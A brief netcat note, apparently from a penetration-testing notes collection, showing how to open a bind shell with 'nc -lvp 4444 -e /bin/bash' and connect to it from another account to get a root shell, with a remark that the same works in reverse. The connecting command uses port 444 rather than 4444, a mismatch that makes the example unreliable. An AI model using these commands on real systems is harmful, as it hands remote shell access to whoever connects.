 # Netcat

Hand over a shell:
```
root$ nc -lvp 4444 -e /bin/bash
```

Now connect to it from another user
```
otheruser$ nc 192.168.1.101 444
whoami
root
```

The same thing can be done in reverse. The one listening is giving us the shell.	
